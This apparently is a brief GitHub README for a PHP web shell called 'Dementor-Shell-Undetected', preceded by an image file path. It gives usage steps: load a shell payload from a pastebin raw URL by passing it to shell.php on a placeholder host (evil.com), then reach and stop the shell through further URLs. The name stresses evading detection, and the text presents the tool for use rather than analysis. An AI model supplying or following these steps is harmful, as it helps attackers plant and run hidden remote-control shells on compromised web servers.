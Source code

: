 # Dementor-Shell-Undetected

Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop
